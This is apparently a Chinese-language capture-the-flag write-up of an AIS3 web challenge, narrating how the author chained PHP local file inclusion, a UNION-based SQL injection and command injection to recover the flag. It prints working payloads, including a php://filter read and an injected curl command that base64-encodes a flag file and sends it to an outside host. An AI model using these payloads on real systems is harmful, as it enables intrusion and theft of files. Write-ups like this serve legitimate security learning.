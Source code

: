 # Web3
` 這題Writeup不寫，我會對不起我自己 `

## PHP LFI 
先看參數中可以發現有一個module，用 ./modules/api 和 ../html/modules/api 發現都可以
=> 想到有LFI
利用LFI將所有網頁拉下來，建立網站架構
(經典 php://filter/convert.base64-encode/resource=)
=> 發現config.php => 統神搬火鍋 ...?

* 原本想說能用傳統的 %00 來截斷include，結果是PHP7.4.19 
* 原本想說include外部php，結果allow_include_url沒開
## SQLi
後來花了很多時間在SQLi上，構建id的payload
"""sql
-1 UNION SELECT 'name','tbl_name','type' from sqlite_master;
"""
這裡要注意一個我踩過的坑，就是前面只有選三個column，你也要讓union後面也只有select三個column
經過整個Database的探勘，發現根本沒flag，所以放棄==

## CMDi
讓SQLi跟CMDi結合，構建CMDi的payload
"""sql
-1 UNION SELECT 'Customer',"'${IFS};curl${IFS}x.sivir.pw?$(cat${IFS}/flag_81c015863174cd0c14034cc60767c7f5${IFS}|base64);'",'5900' from sqlite_master;
"""
後來在網路上查到union select好像可以自己搞個Value出來，所以就能夠建CMDi
"""sql
-1 UNION SELECT 'Value1','Value2','Value3' from sqlite_master;
"""
最後一直搞不定IFS，所以跑去寫Colors了
但後來在最後10分鐘的時候，我再回來看這一題，構建了payload
原本要用nc跟T22Server連接，結果發現好像不太行
就改成在裡面打指令，先ls找一下flag結果找不到 :rage:
最後去翻 / 才有，就找到flag了

> 這題真的很機車 = = 

Flag: `AIS3{o1d_skew1_w3b_tr1cks_co11ect10n_:D}`
